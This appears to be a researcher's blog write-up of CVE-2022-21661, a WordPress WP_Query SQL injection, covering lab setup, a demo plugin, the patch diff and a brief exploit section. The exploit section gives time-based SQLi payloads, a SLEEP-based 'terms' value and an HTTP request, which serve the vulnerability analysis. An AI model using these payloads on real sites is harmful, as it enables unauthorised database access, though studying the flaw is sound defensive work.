<!--more-->

Due to improper **data sanitization** in `WP_Query`, it is possible in certain cases to perform an **SQL Injection** through **plugins** or **themes** that use it in a particular way. This vulnerability was patched in WordPress version **5.8.3**. Older affected versions were also fixed through security releases going back as far as **3.7.37**.

* **CVE ID**: [CVE-2022-21661](https://www.cve.org/CVERecord?id=CVE-2022-21661)
* **Product**: [WordPress](https://wordpress.org/)
* **Vulnerability Type**: SQL Injection
* **Affected Versions**: `3.7.37 ≤ version < 5.8.3`
* **CVSS severity**: High (8.0)

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **WordPress**: v5.8.2 (vulnerable)

## Setup

### Required PHP Version

WordPress is entirely built in PHP, so the PHP version on the server directly affects its operation:

* Each PHP version introduces new features and deprecates or removes outdated syntax/functions.
* If WordPress uses features not supported by an old PHP version → syntax errors or execution failure may occur.
* Conversely, if PHP is too new, some older functions used by WordPress might be deprecated or removed, causing runtime errors.

👉 Therefore, the PHP version must be compatible with the WordPress version. In this analysis, we use PHP **7.4** with WordPress **5.8.2**.

### VSCode Extensions

Because WordPress source code is complex, reading it line by line manually is not practical. To assist with **debugging** and **tracing**, install the following extensions in VS Code:

* **PHP Extension Pack** → search keyword: `xdebug.php-pack`
* **PHP Tools** for VS Code → search keyword: `devsense.phptools-vscode`

### Custom Plugin

Since this SQLi vulnerability affects the **WordPress Core** but can only be exploited **indirectly** through **plugins** or **themes** that use `WP_Query`, we must interact with it via such a plugin or theme.

We create a **plugin** using `WP_Query`, displaying the SQL query executed through `WP_Query::request`.

```php
<?php
/**
 * Plugin Name: Demo WP_Query
 * Description: Demo plugin for WP_Query
 * Version: 1.0
 * Author: w41bu1
 */

if (!defined('ABSPATH'))
    exit;

function da_show_posts()
{
    $args = [
        'post_type' => 'post',
        'tax_query' => [
            [
                'taxonomy' => 'category',
                'field' => 'term_taxonomy_id',
                'terms' => [1,2,3],
                'operator' => 'IN',
            ],
        ],
    ];

    $query = new WP_Query($args);

    ob_start();

    echo '<h3>Demo WP_Query</h3>';
    echo '<pre style="background:#f0f0f0; padding:15px; width:100%; white-space:pre-wrap; word-wrap:break-word; overflow:auto;">';
    echo "SQL query generated by WP_Query:\n\n";
    echo esc_html($query->request); 
    echo '</pre>';

    if ($query->have_posts()) {
        echo '<ul>';
        while ($query->have_posts()) {
            $query->the_post();
            echo '<li>' . get_the_title() . ' (' . get_the_ID() . ')</li>';
        }
        echo '</ul>';
    } else {
        echo '<p>No posts found.</p>';
    }

    wp_reset_postdata();
    return ob_get_clean();
}
add_shortcode('demo_wp_query', 'da_show_posts');
```

[Taxonomy parameters](https://developer.wordpress.org/reference/classes/wp_query/#taxonomy-parameters)

Create a new page with `<page-title>` containing the **shortcode**:

```
[demo_wp_query]
```

👉 The query will be displayed when visiting `http://localhost/<page-title>`



## Analysis

**wpdb**

* Core PHP class used by WordPress to directly interact with MySQL.
* Allows developers to **write and execute raw SQL queries**.

**WP_Query**

* An abstraction layer that retrieves post data from the database **without writing raw SQL**.
* Developers simply pass an array of parameters (args), and WordPress automatically builds the appropriate SQL.

**Relationship**

* `WP_Query` doesn’t directly query MySQL.
* Instead, it builds SQL based on the arguments, applies **validation/sanitization**, and then calls `$wpdb` to execute it.

### Patch Diff

WordPress is an **open-source** project with a public GitHub repository, meaning all patches are committed openly.
To analyze a vulnerability, we can simply review the related commit and observe the code changes.

The reference for **CVE-2022-21661** links to this [commit](https://github.com/WordPress/wordpress-develop/commit/17efac8c8ec64555eff5cf51a3eff81e06317214):



The vulnerability was fixed in **src/wp-includes/class-wp-tax-query.php**

**Vulnerable Code**

```php
$query['terms'] = array_unique( (array) $query['terms'] );
```

* Casts `$query['terms']` to an array and removes duplicates.
* No type checking or sanitization — allowing injection of malicious values into the SQL query.

Example:

```php
$args = [
    'post_type' => 'post',
    'tax_query' => [
        [
            'taxonomy' => 'category',
            'field' => 'term_taxonomy_id',
            'terms' => ['1) AND (SELECT SLEEP(5)) # '],
            'operator' => 'IN',
        ],
    ],
];
```

**Patched Code**

```php
if ( 'slug' === $query['field'] || 'name' === $query['field'] ) {
    $query['terms'] = array_unique( (array) $query['terms'] );
} else {
    $query['terms'] = wp_parse_id_list( $query['terms'] );
}
```

* Added a conditional check based on `$query['field']`:

  * If it’s **slug** or **name** → keep the old behavior.
  * If it’s an **ID** → use `wp_parse_id_list()` to cast all elements into an integer array safely.

> This ensures that for `tax_query` fields such as `term_taxonomy_id` and `term_id`, which correspond to **BIGINT UNSIGNED** columns, only numeric values are used.

```sql
mysql> DESC wp_term_taxonomy;
+------------------+-----------------+------+-----+---------+----------------+
| Field            | Type            | Null | Key | Default | Extra          |
+------------------+-----------------+------+-----+---------+----------------+
| term_taxonomy_id | bigint unsigned | NO   | PRI | NULL    | auto_increment |
| term_id          | bigint unsigned | NO   | MUL | 0       |                |
| taxonomy         | varchar(32)     | NO   | MUL |         |                |
| description      | longtext        | NO   |     | NULL    |                |
| parent           | bigint unsigned | NO   |     | 0       |                |
| count            | bigint          | NO   |     | 0       |                |
+------------------+-----------------+------+-----+---------+----------------+
```

### How it works







#### Flow


















**Execution Flow Diagram**



## Exploit

Replace `terms` value with an SQLi payload:

```http
GET /demo/?terms=1)+AND+(SELECT+1+FROM+(SELECT+SLEEP(5))a)+%23+ HTTP/1.1
```



## Conclusion

The **CVE-2022-21661** vulnerability in **WordPress Core**, prior to version **5.8.3** (affecting versions back to **3.7.37**), stems from improper **sanitization** in `WP_Query`, leading to a potential SQL Injection vulnerability.

## References

[SQL Injection cheat sheet - PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[CVE-2022-21661 Detail](https://www.cve.org/CVERecord?id=CVE-2022-21661)

## Notes

[^tax_query]: Since the patch is located in **src/wp-includes/class-wp-tax-query.php**, this file defines the `WP_Tax_Query` class, which handles the `tax_query` parameter in `WP_Query`. Any modification to this file directly affects how `tax_query` arguments are **parsed and validated**.
